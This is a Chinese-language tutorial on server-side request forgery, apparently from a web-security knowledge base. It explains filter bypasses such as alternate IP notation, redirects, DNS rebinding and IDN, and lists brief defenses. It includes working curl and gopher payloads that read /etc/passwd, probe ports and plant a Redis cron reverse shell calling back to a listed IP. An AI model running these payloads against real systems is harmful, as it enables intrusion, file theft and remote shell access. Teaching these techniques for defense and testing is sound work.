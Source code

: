 SSRF
========================================

简介
----------------------------------------
服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。

漏洞危害
----------------------------------------
+ SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。
+ 大部分情况都是GET型SSRF漏洞，仅能探测存活，扫描端口，内网域名探测等，危害十分有限。

利用方式
----------------------------------------
	|ssrf1|
	
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

以curl为例, 可以使用dict protocol操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：

:: 

	# 利用file协议查看文件
	curl -v 'file:///etc/passwd'

	# 利用dict探测端口
	curl -v 'dict://127.0.0.1:22'
	curl -v 'dict://127.0.0.1:6379/info'

	# 利用gopher协议反弹shell
	curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'

	# 利用file协议任意文件读取
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=file:///etc/passwd'

	# 利用dict协议查看端口
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=dict://127.0.0.1:22'

	# 利用gopher协议反弹shell
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'

相关危险函数
----------------------------------------
SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有 ``file_get_contents()`` / ``fsockopen()`` / ``curl_exec()`` 等。

过滤绕过
----------------------------------------

更改IP地址写法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：

- ``^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$``
- ``^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``
- ``^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``

对于这种过滤我们采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址可以被改写成：

- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0xA8.0.1
- 10进制整数格式：3232235521
- 16进制整数格式：0xC0A80001

还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1。

访问改写后的IP地址时，Apache会报400 Bad Request，但Nginx、MySQL等其他服务仍能正常工作。

另外，0.0.0.0这个IP可以直接访问到本地，也通常被正则过滤遗漏。

使用解析到内网的域名
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务端没有先解析IP再过滤内网地址，我们就可以使用localhost等解析到内网的域名。

另外 ``xip.io`` 提供了一个方便的服务，这个网站的子域名会解析到对应的IP，例如192.168.0.1.xip.io，解析到192.168.0.1。

利用解析URL所出现的问题
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

比如 ``http://www.baidu.com@192.168.0.1/`` 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。

利用跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用跳转的方式来进行绕过。

可以使用如 http://httpbin.org/redirect-to?url=http://192.168.0.1 等服务跳转，但是由于URL中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，可以通过短地址的方式来绕过。

常用的跳转有302跳转和307跳转，区别在于307跳转会转发POST请求中的数据等，但是302跳转不会。

通过各种非HTTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

::

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 ``file:///path/to/file`` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 ``file:///d:/1.txt`` 来访问D盘中1.txt的内容。

DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就禁止该次请求。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。

利用IPv6
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如 ``[::]`` ``0000::1`` 或IPv6的内网域名来绕过过滤。


利用IDN
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一些网络访问工具如Curl等是支持国际化域名（Internationalized Domain Name，IDN）的，国际化域名又称特殊字符域名，是指部分或完全使用特殊的文字或字母组成的互联网域名。

在这些字符中，部分字符会在访问时做一个等价转换，例如 ``ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ`` 和 ``example.com`` 等同。利用这种方式，可以用 ``① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩`` 等字符绕过内网限制。

可能的利用点
----------------------------------------
- Apache Hadoop远程命令执行
- axis2-admin部署Server命令执行
- Confluence SSRF
- counchdb WEB API远程命令执行
- dict
- docker API远程命令执行
- Elasticsearch引擎Groovy脚本命令执行
- ftp / ftps（FTP爆破）
- glassfish任意文件读取和war文件部署间接命令执行
- gopher
- HFS远程命令执行
- http、https
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码） 
- Java调试接口命令执行
- JBOSS远程Invoker war命令执行
- Jenkins Scripts接口命令执行
- ldap
- mongodb
- php_fpm/fastcgi 命令执行
- rtsp - smb/smbs（连接SMB）
- sftp
- ShellShock命令执行
- Struts2 命令执行
- telnet
- tftp（UDP协议扩展）
- tomcat命令执行
- WebDav PUT上传任意文件
- WebSphere Admin可部署war间接命令执行
- zentoPMS远程命令执行

防御方式
----------------------------------------
- 过滤返回的信息
- 统一错误信息
- 限制请求的端口
- 禁止不常用的协议
- 对DNS Rebinding，考虑使用DNS缓存或者Host白名单

挖掘技巧
----------------------------------------
- 前端传入后端HTML内容
	+ payload: ``<iframe src="http://ssrf.jd.local/">``
	+ payload: ``<meta http-equiv="refresh" content="0;url=http://ssrf.jd.local/"/>``
- 图片检索功能
	+ url参数


.. |ssrf1| image:: ../images/ssrf1.jpg
